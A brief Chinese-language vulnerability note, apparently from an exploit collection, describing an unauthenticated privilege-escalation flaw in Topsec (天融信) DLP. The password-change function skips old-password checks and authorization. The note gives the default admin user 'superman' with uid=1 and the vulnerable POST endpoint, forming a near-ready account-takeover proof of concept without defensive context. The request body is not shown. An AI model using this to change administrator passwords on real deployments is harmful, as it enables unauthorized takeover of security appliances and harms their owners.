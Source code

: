 天融信dlp+未授权+越权

管理员登录系统之后修改密码，未采用原密码校验，且存在未授权访问导致存在越权修改管理员密码。

 默认用户superman的uid=1

POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
